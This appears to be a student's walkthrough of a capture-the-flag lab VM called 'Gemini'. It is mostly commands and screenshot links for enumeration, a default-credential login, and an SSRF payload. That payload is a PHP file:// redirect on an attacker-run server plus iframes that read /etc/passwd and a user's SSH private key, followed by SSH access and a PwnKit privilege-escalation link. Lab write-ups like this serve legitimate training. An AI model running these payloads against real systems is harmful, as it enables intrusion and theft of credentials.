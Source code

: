 ﻿# Gemini 192.168.56.110
## Andrea Zonnekus 18758119

sudo netdiscover -i eth0 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.001.png) 

sudo nmap -p- -sV -Pn -O 192.168.56.110 -oN host 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.002.png) 

gobuster dir -u 192.168.56.110 -w /usr/share/dirb/wordlists/big.txt -ext php,py,txt,html -o http\_enum 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.003.png) 



searchsploit gemini 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.004.png) 

view-source:http://192.168.56.110/test2/ 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.005.png) 

See token, input name, input password, also check login.php 

Try admin 1234 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.006.png)

Bingo 



searchsploit apache 2.4 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.007.png) 





searchsploit openssh 7.4 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.008.png) 

dirb http://192.168.56.110/test2 -X .php | grep CODE:200 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.009.png) 

<http://192.168.56.110/test2/profile.php> 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.010.png)

Check 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.011.png) 



python3 -m http.server 80 

`<iframe src=192.168.56.102>` 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.012.png) 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.013.png) 

<https://programmerall.com/article/6961560012/> 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.014.png) 

<?php header('location:file://'.$\_REQUEST['url']); ?> 

`<iframe width="800" height="1500" src=http://192.168.56.102/ssrf.php?x=%2fetc%2fpasswd> </iframe>`

<https://gist.github.com/p0c/9047726> 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.015.png) 



php -S 0.0.0.0:80 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.016.png)



`<iframe height="2000" width="800" src=http://192.168.56.102/ssrf.php?url=%2fetc%2fpasswd></iframe>`

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.017.png)

Save as file 



cat pass | grep /bin/bash 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.018.png) 



`<iframe height="2000" width="800" src="http://192.168.56.102/ssrf.php?url=/home/gemini1/%2essh/id\_rsa"></iframe>`

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.019.png) 





chmod 600 gem\_ssh 

ssh gemini1@192.168.56.110 -i gem\_ssh 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.020.png)

Run linpeas 

![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.021.png)

Sudo 1.8.9 --> https://github.com/berdav/CVE-2021-4034 



![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.022.png)



![](gemini_full_steps/Aspose.Words.3346b2a4-3883-46f7-ba48-d1d684e260b3.023.png) 

